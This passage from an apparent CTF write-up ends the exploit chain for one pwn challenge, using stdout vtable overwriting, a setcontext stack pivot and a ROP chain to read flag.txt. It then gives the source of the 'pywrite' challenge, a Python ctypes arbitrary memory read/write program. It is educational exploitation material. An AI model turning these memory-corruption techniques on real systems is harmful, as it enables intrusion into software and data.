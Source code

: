 ```python

############################
#                          #
#      exploit chain       #
#                          #
############################

# loop the program infinitely by overwriting vtable pointer in stdout
rsd(p64(main_inputs), libc.sym._IO_2_1_stdout_ + 0xd8, elf.sym.inp - 0x38)

# write flag.txt to memory
rsd(p64(main_inputs), 0x404900, u64(b"flag.txt"))

# write return gadget to rcx, to be pushed onto the stack
rsd(p64(main_inputs), libc.sym._IO_2_1_stdout_ + 0xa8, ret)

# return to setcontext gadget and pivot stack to our ROPgadget
payload = p64(pivot) + b"A"*16
payload += chain

rsd(payload, libc.sym._IO_2_1_stdout_ + 0xa0, elf.sym.inp+0x18)

# get flag!
p.interactive()
```

## pywrite (482 pts) - 15 solves
---

> 
> Where heapnote meets pyjail, meet pywrite, the most unrealistic, convoluted challenge ever. Challenge is running on latest Ubuntu 20.04 docker.
> Author: Eth007
>
> [pywrite.zip](attachments/pwn/pywrite/pywrite.zip)
>

```python
from ctypes import c_ulong

def read(where):
  return c_ulong.from_address(where).value

def write(what, where):
  c_ulong.from_address(where).value = what

menu = '''|| PYWRITE ||
1: read
2: write
> '''

while True:
  choice = int(input(menu))
  if choice == 1:
    where = int(input("where? "))
    print(read(where))
  if choice == 2:
    what = int(input("what? "))
    where = int(input("where? "))
    write(what, where)
  if choice == 3:
    what = input("what????? ")
    a = open(what)
```